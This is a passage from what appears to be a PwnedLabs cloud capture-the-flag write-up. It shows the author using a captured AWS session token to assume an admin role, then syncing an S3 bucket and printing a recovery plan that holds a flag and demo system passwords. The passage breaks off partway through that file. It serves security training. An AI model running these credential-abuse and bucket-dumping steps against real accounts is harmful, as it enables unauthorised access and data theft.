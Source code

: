 ```sh
nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws configure set aws_session_token "FwoGZXIvYXdzED8aDDZ5VQCreHbUQ5Z3oyKtAY1o7HfI19KFwef+EbXFeI/a8J/naQ8On8ZugLpnIal/WOCv5IXnv4BgyLDL1TV/XgoiYGKNOXLNi/6A/eXNJZo5v90O31MyNeumZvNp5qVWv1hAZb3+SdukVSjWZhOYyvewhnY1vGsHiqrO4fwpexdvnZz6odTXoxNjQaLjvScoLr/03qOxxOYtLzkYd3Xy/wzZO5vJTxWJVQaRofPwpyhHRI/6PPf5DOaRcVBfKPOXtKwGMi2YxCVDFsxHZD3jvimnShh/xhvYAl2QTGxXY5xbFnwoSu6bgSBLN+mnQ80Khx8=" --profile MySession
nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws sts get-caller-identity --profile MySession
{
"UserId": "AROARSCCN4A34V23XHK6I:MySession",
"Account": "107513503799",
"Arn": "arn:aws:sts::107513503799:assumed-role/AdminRole/MySession"
}
```

  

Now we can get list and get the files from s3 bucket called `emergency-data-recovery`  and dump it out 

  

```sh
nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws s3 ls s3://emergency-data-recovery --profile "MySession"
2023-08-27 02:37:50 2232 emergency.txt
2023-08-27 03:49:02 236 message.txt

nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws s3 sync s3://emergency-data-recovery/ ./ --profile "MySession"
download: s3://emergency-data-recovery/message.txt to ./message.txt
download: s3://emergency-data-recovery/emergency.txt to ./emergency.txt
```

  

Opening the `emergency.txt`  reveals that we got our flag and it is also disclosing alot of Internal credentials of various departments

  

```sh
nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ cat emergency.txt
=========== Huge Logistics Emergency Recovery Plan ===========
flag: 3eb222cf55522f0f321f1ed5ed9a3663
Purpose: This document provides a reference to essential credentials and steps to be taken during a disaster recovery scenario
---------------------
Date of Last Update: 8/26
Updated By: Jose
---------------------
--- On-Premise Systems ---
1. System Name: ERP System
- Access URL/Endpoint: http://erpsystem.hugelogistics.local
- Username: admin_erp
- Password: dem0Passw0rd!ERP
- Recovery Steps:
1. Access the ERP System administrative console through the provided URL.
2. Check system status and logs for any anomalies.
3. Restore from the most recent backup if data corruption is detected.
2. System Name: Warehouse Management System
- Access URL/Endpoint: http://warehouse.hugelogistics.local
- Username: admin_warehouse
- Password: dem0Passw0rd!WMS
- Recovery Steps:
1. Verify physical server integrity in the on-premise server room.
2. Restart services related to the warehouse system.
3. Confirm synchronization with other integrated systems.
--- Cloud Systems ---
1. System Name: Cloud-based Customer Portal
```